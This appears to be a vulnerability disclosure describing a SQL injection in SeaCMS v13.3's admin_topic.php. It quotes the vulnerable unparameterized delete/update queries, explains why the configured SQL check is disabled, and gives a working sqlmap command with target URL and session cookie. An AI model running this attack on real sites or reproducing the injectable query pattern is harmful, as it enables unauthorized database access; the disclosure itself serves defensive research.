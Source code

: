 sql injection vulnerability exists in admin_topic.php file in seacms v13.3 background.

download address：https://www.seacms.com/download/

![image-20250409144736693](https://fsrmtuchuang-123.oss-cn-beijing.aliyuncs.com/img2/202504091447101.png)

Code Audit

 Follow up to admin_topic.php file. 

The vulnerability occurs

```
$dsql->ExecuteNoneQuery("delete from `sea_topic` where id in ($ids)");
$dsql->ExecuteNoneQuery("update `sea_data` set v_topic=0 where v_topic in ($ids)");
```

$ids = implode (',',$e_id); $ids is controlled by $e_id, where $e_id is  controllable, and this sql statement can be executed when action=delall.

![image-20250409151448685](https://fsrmtuchuang-123.oss-cn-beijing.aliyuncs.com/img2/202504091514784.png)

It will have a sql statement check here。

![image-20250409152049662](https://fsrmtuchuang-123.oss-cn-beijing.aliyuncs.com/img2/202504091520802.png)

![image-20250409152221426](https://fsrmtuchuang-123.oss-cn-beijing.aliyuncs.com/img2/202504091522574.png)

true on initialization, checked by default, but config.php is included in the admin_topic.php file

![image-20250409152312363](https://fsrmtuchuang-123.oss-cn-beijing.aliyuncs.com/img2/202504091523511.png)

![image-20250409152347442](https://fsrmtuchuang-123.oss-cn-beijing.aliyuncs.com/img2/202504091523597.png)

config.php is set to flase, so this sql statement check fails.

sqlmap Run it:

```
python sqlmap.py -u "http://seacms.com:8888/2knum/admin_topic.php?action=delall&e_id[]=1111" -p "e_id[]" --cookie "t00ls=e54285de394c4207cd521213cebab040; t00ls_s=YTozOntzOjQ6InVzZXIiO3M6MjY6InBocCB8IHBocD8gfCBwaHRtbCB8IHNodG1sIjtzOjM6ImFsbCI7aTowO3M6MzoiaHRhIjtpOjE7fQ%3D%3D; PHPSESSID=0c3k9fd0tah3h4i93v6g63dur6" --dbs
```

![image-20250409152514869](https://fsrmtuchuang-123.oss-cn-beijing.aliyuncs.com/img2/202504091525099.png)